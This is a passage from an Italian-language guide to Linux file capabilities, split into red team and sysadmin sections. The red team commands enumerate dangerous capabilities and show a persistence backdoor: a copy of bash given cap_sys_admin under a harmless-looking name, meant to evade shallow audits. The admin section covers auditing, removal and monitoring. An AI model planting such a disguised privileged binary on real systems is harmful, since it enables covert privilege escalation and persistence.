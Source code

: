 ### Per Red Team

#### Capability Exploitation

```bash
# Enumerazione capabilities
find / -type f -exec getcap {} \; 2>/dev/null | grep -v '^$'

# Focus su capabilities pericolose
getcap -r / 2>/dev/null | grep -E "(sys_admin|sys_ptrace|sys_module)"

# Test capability assignment (se privilegi admin)
cp /bin/bash /tmp/test
setcap cap_sys_admin+ep /tmp/test
```

#### Persistence via Capabilities

```bash
# Backdoor con capability (richiede admin)
cp /bin/bash /usr/local/bin/legitimate_tool
setcap cap_sys_admin+ep /usr/local/bin/legitimate_tool

# Apparentemente legittimo ma con privilegi elevati
# Difficile da individuare in audit superficiali
```

### Per System Administrators

#### Hardening Checklist

```bash
# 1. Audit capabilities esistenti
getcap -r / 2>/dev/null > capabilities_audit.txt

# 2. Rimozione capabilities non necessarie
# Esempio: se ping non serve raw socket
sudo setcap -r /usr/bin/ping

# 3. Monitoring modifiche capabilities
# Aggiungere a script di monitoring:
# find /usr/bin -newer /var/log/last_audit -exec getcap {} \;

# 4. ACL invece di chattr per log
# NON: sudo chattr +i /var/log/auth.log
# SÌ:  setup ACL appropriati

# 5. Regular capability audit
echo "0 2 * * * root getcap -r / > /var/log/capabilities_daily.log" | sudo tee -a /etc/crontab
```

#### Emergency Response
